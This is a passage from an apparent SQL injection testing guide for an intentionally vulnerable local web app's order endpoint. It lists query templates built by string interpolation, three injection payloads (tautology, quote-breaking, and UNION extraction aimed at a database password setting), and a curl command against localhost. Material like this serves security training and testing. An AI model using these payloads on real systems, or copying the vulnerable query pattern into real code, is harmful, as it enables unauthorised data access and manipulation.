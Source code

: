   2. A 5-second delay indicates success.

### 6. Order Endpoint (`POST /api/orders`)
- **Input Fields**: `user_id`, `product_id`, `quantity`, `shipping_address` (JSON body)
- **Vulnerable Queries**:
  - `SELECT price * ${quantity} AS total FROM products WHERE id = ${product_id}`
  - `INSERT INTO orders (user_id, product_id, quantity, total_amount, shipping_address) VALUES (${user_id}, ${product_id}, ${quantity}, ${total_amount}, '${shipping_address}')`
- **Goal**: Manipulate order data or extract information.

#### Payload 1: Manipulate Product ID
- **Product ID**: `1 OR 1=1`
- **JSON Body**: `{ "user_id": 2, "product_id": "1 OR 1=1", "quantity": 1, "shipping_address": "456 Oak Ave" }`
- **Resulting Query**: `SELECT price * 1 AS total FROM products WHERE id = 1 OR 1=1`
- **Effect**: May select an unintended product or cause unexpected behavior (e.g., selecting the first product).
- **How to Test**:
  1. In the frontend’s "Create Order" form, enter the payload in the `product_id` field.
  2. Fill other fields (e.g., `user_id: 2`, `quantity: 1`, `shipping_address: 456 Oak Ave`) and submit.
  3. Check the response message (e.g., `Order created: <id>`).
  4. Use `curl`:
     ```bash
     curl -X POST -H "Content-Type: application/json" -d '{"user_id":2,"product_id":"1 OR 1=1","quantity":1,"shipping_address":"456 Oak Ave"}' http://localhost:3000/api/orders
     ```

#### Payload 2: SQL Injection in Shipping Address
- **Shipping Address**: `test' OR '1'='1`
- **JSON Body**: `{ "user_id": 2, "product_id": 1, "quantity": 1, "shipping_address": "test' OR '1'='1" }`
- **Resulting Query**: `INSERT INTO orders (user_id, product_id, quantity, total_amount, shipping_address) VALUES (2, 1, 1, 1299.99, 'test' OR '1'='1')`
- **Effect**: Causes a syntax error or may allow further manipulation if combined with other payloads.
- **How to Test**:
  1. Enter the payload in the frontend’s `shipping_address` field and submit the order.
  2. Check for an error message or unexpected behavior.
  3. Use `curl` to send the request and inspect the response.

#### Payload 3: Union-Based Injection in Product ID
- **Product ID**: `1 UNION SELECT 1, 9999.99 FROM admin_settings WHERE setting_key = 'database_password' -- `
- **JSON Body**: `{ "user_id": 2, "product_id": "1 UNION SELECT 1, 9999.99 FROM admin_settings WHERE setting_key = 'database_password' -- ", "quantity": 1, "shipping_address": "456 Oak Ave" }`
- **Resulting Query**: `SELECT price * 1 AS total FROM products WHERE id = 1 UNION SELECT 1, 9999.99 FROM admin_settings WHERE setting_key = 'database_password' -- `
- **Effect**: Manipulates the `total_amount` to an arbitrary value (e.g., 9999.99).
- **How to Test**:
  1. Enter the payload in the frontend’s `product_id` field and submit the order.
  2. Check the created order’s `total_amount` in the response or database.
  3. Use `curl` to send the request and verify the order details.
